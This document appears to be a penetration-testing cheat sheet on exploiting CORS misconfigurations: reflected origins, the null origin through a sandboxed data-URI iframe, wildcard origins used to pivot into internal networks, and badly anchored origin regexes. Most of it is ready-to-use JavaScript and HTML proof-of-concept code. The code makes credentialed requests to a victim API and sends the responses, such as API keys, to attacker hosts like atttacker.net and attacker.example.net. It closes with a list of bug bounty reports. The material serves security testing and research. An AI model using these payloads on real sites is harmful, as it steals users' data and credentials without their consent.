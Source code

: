 CORS Misconfiguration:

  A site-wide CORS misconfiguration was in place for an API domain. This allowed an attacker to make cross origin requests on behalf of the user as the application did not whitelist the Origin header and had Access-Control-Allow-Credentials: true meaning we could make requests from our attacker’s site using the victim’s credentials.

Prerequisites

    BURP HEADER> Origin: https://evil.com
    VICTIM HEADER> Access-Control-Allow-Credential: true
    VICTIM HEADER> Access-Control-Allow-Origin: https://evil.com OR Access-Control-Allow-Origin: null

Exploitation

Usually you want to target an API endpoint. Use the following payload to exploit a CORS misconfiguration on target https://victim.example.com/endpoint.
Vulnerable Example: Origin Reflection
Vulnerable Implementation

    GET /endpoint HTTP/1.1
    Host: victim.example.com
    Origin: https://evil.com
    Cookie: sessionid=... 
    
    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://evil.com
    Access-Control-Allow-Credentials: true 
    {"[private API key]"}

Proof of concept

This PoC requires that the respective JS script is hosted at evil.com
    
    var req = new XMLHttpRequest(); 
    req.onload = reqListener; 
    req.open('get','https://victim.example.com/endpoint',true); 
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        location='//atttacker.net/log?key='+this.responseText; 
    };

or

      <html>
           <body>
               <h2>CORS PoC</h2>
               <div id="demo">
                   <button type="button" onclick="cors()">Exploit</button>
               </div>
               <script>
                   function cors() {
                   var xhr = new XMLHttpRequest();
                   xhr.onreadystatechange = function() {
                       if (this.readyState == 4 && this.status == 200) {
                       document.getElementById("demo").innerHTML = alert(this.responseText);
                       }
                   };
                    xhr.open("GET",
                             "https://victim.example.com/endpoint", true);
                   xhr.withCredentials = true;
                   xhr.send();
                   }
               </script>
           </body>
       </html>

Vulnerable Example: Null Origin
Vulnerable Implementation

It's possible that the server does not reflect the complete Origin header but that the null origin is allowed. This would look like this in the server's response:
    
    GET /endpoint HTTP/1.1
    Host: victim.example.com
    Origin: null
    Cookie: sessionid=... 
    
    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true 

{"[private API key]"}

Proof of concept

This can be exploited by putting the attack code into an iframe using the data URI scheme. If the data URI scheme is used, the browser will use the null origin in the request:
    
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://victim.example.com/endpoint',true);
      req.withCredentials = true;
      req.send();
    
      function reqListener() {
        location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
       };
    </script>"></iframe> 

Vulnerable Example: XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the exploit codes from above do not work. But if you have an XSS on a trusted origin, you can inject the exploit coded from above in order to exploit CORS again.

https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>

Vulnerable Example: Wildcard Origin * without Credentials

If the server responds with a wildcard origin *, the browser does never send the cookies. However, if the server does not require authentication, it's still possible to access the data on the server. This can happen on internal servers that are not accessible from the Internet. The attacker's website can then pivot into the internal network and access the server's data without authentication.

* is the only wildcard origin
https://*.example.com is not valid

Vulnerable Implementation
    
    GET /endpoint HTTP/1.1
    Host: api.internal.example.com
    Origin: https://evil.com
    
    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: *
    
    {"[private API key]"}

Proof of concept

    var req = new XMLHttpRequest(); 
    req.onload = reqListener; 
    req.open('get','https://api.internal.example.com/endpoint',true); 
    req.send();
    
    function reqListener() {
        location='//atttacker.net/log?key='+this.responseText; 
    };

Vulnerable Example: Expanding the Origin / Regex Issues

Occasionally, certain expansions of the original origin are not filtered on the server side. This might be caused by using a badly implemented regular expressions to validate the origin header.
Vulnerable Implementation (Example 1)

In this scenario any prefix inserted in front of example.com will be accepted by the server.
    
    GET /endpoint HTTP/1.1
    Host: api.example.com
    Origin: https://evilexample.com
    
    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://evilexample.com
    Access-Control-Allow-Credentials: true 
    
    {"[private API key]"}

Proof of concept (Example 1)

This PoC requires the respective JS script to be hosted at evilexample.com
    
    var req = new XMLHttpRequest(); 
    req.onload = reqListener; 
    req.open('get','https://api.example.com/endpoint',true); 
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        location='//atttacker.net/log?key='+this.responseText; 
    };

Vulnerable Implementation (Example 2)

In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: ^api.example.com$ instead of ^api\.example.com$. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

    GET /endpoint HTTP/1.1
    Host: api.example.com
    Origin: https://apiiexample.com
    
    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://apiiexample.com
    Access-Control-Allow-Credentials: true 
    
    {"[private API key]"}

Proof of concept (Example 2)

This PoC requires the respective JS script to be hosted at apiiexample.com

    var req = new XMLHttpRequest(); 
    req.onload = reqListener; 
    req.open('get','https://api.example.com/endpoint',true); 
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        location='//atttacker.net/log?key='+this.responseText; 
    };


Bug Bounty reports

    CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)
    CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)
    Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)
    CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)
    [██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)


